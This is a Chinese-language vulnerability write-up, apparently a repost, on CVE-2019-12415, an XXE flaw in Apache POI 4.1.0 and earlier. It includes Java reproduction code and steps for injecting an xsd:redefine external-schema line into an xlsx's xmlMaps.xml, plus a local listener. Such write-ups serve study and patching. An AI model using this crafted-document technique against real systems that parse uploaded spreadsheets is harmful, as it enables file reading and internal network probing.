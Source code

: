 # （CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2819](https://www.zhihuifly.com/t/topic/2819)

# （CVE-2019-12415）Apache POI <= 4.1.0 XXE漏洞

## 一、漏洞简介

### 什么是POI

Apache POI是Apache软件基金会的开放源码函式库，POI提供API给Java程序对Microsoft Office格式档案读和写的功能。

### 关于CVE-2019-12415

这是最近的POI官方宣布出来的一个XXE漏洞，可以影响到4.1.0版本，官方已在十天前更新了4.1.1版本，最新版本修复了这个XXE漏洞。

在最高4.1.0的Apache POI中，当使用工具XSSFExportToXml转换用户提供的Microsoft Excel文档时，特制文档可允许攻击者通过XML外部实体（XXE）从本地文件系统或内部网络资源中读取文件。加工中。

根据官方介绍，防御是在使用 XSSFExportToXml类xlsx转xml时触发的。

diff了一下4.1.0和4.1.1 XSSFExportToXml类的原始代码，发现在isValid方法里多设置了一个功能。

问题就出在 XSSFExportToXml#isValid 方法里，如果 XSSFExportToXml#exportToXML方法的第三个参数为true逐步进入 isValid触发XXE。

![image](img/f7953d6108bf48d4f42da73ae502daec.png)

## 二、漏洞影响

Apache POI<=4.1.0

## 三、复现过程

```
XSSFWorkbook wb = new XSSFWorkbook(new FileInputStream(new File("CustomXMLMappings.xlsx")));
for (XSSFMap map : wb.getCustomXMLMappings()) {     XSSFExportToXml exporter = new XSSFExportToXml(map); // 使用 XSSFExportToXml 将 xlsx 转成 xml     exporter.exportToXML(System.out, true);//第一个参数是输出流无所谓，第二个参数要为 true} 
```

然后下载这个xlsx文件。

```
https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx 
```

把文件替换为“ CustomXMLMappings.zip”并解压文件。

编辑 CustomXMLMappings/xl/xmlMaps.xml 文件。

在  标签里面加上一行代码。

```
<xsd:redefine schemaLocation="http://127.0.0.1:8080/"/> 
```

![image](img/f29234ef86e9729991075c07da706799.png)

然后把xlsx释放出来的所有文件再用zip打包回去，改成 CustomXMLMappings.xlsx。

最后一步监听本地8080端口，运行POC。

![image](img/2180b7cafa30e90b33f411b54259894e.png)